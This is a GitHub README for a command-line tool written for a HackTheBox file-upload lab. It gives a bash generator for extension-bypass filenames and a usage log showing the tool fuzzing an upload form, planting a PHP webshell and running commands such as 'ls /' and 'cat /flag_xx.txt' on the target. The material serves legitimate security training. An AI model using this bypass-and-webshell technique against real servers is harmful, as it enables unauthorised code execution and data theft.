 # xxec
A command-line tool for exploiting XXE injection via file uploads

I built this tool to automate XXE injection for the **HackTheBox - File Upload Attacks** module. The script fuzzes for file extensions that have code execution, uploads a webshell and then allows the user to issue commands directly from the command line. 

## Arguments

- `-H`: Host (IP of the server)
- `-p`: Port (Port on which the web application is running)
- `-w`: Wordlist (Wordlist containing extensions to fuzz, items in the wordlist must be of the form `.ext`)
- `-c`: Check Directory (Directory where uploaded files are placed, you should omit the first `/` from the path as the script handles it automatically as shown in usage example below)

## Wordlist Generation

If you are coming here from HTB, you should make use of the wordlist generator provided within the module. 

Adjusted for the tool:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.phar' '.phtml'; do
        echo "$char$ext.svg" >> extensions-svg.txt
        echo "$ext$char.svg" >> extensions-svg.txt
        echo "svg$char$ext"  >> extensions-svg.txt
        echo "svg$ext$char"  >> extensions-svg.txt
    done
done
```

## Usage

```shell
python3 xxec.py -H SERVER -p PORT -w extensions.svg -c 'path/to/directory/'

[TEST 1/36] Trying extension: ..php.svg
[UPLOAD SUCCESS] test..php.svg -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test..php.svg
Response Status: 404

[TEST 2/36] Trying extension: .php..svg
[UPLOAD SUCCESS] test.php..svg -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test.php..svg
Response Status: 404

[TEST 3/36] Trying extension: .svg..php
[UPLOAD SUCCESS] test.svg..php -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test.svg..php
Response Status: 404

[TEST 4/36] Trying extension: ..phps.svg
[UPLOAD SUCCESS] test..phps.svg -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test..phps.svg
Response Status: 404

[TEST 5/36] Trying extension: .phps..svg
[UPLOAD SUCCESS] test.phps..svg -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test.phps..svg
Response Status: 404

[TEST 6/36] Trying extension: .svg..phps
[UPLOAD SUCCESS] test.svg..phps -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test.svg..phps
Response Status: 403

[TEST 7/36] Trying extension: ..phar.svg
[UPLOAD SUCCESS] test..phar.svg -> Checking execution...
Check URL: http://SERVER:PORT/path/to/directory/test..phar.svg
[CODE EXECUTION] SUCCESS: http://SERVER:PORT/path/to/directory/test..phar.svg

[!] Detected execution. Deploy attack payload? (y/n): y
[UPLOAD SUCCESS] shell..phar.svg -> Checking execution...
[+] Webshell uploaded: http://SERVER:PORT/path/to/directory/shell..phar.svg
Enter command to execute (or type 'exit' to stop): ls /
[COMMAND OUTPUT]

bin
boot
dev
etc
flag_xx.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
Enter command to execute (or type 'exit' to stop): cat /flag_xx.txt
[COMMAND OUTPUT]

HTB{}
Enter command to execute (or type 'exit' to stop): 
```
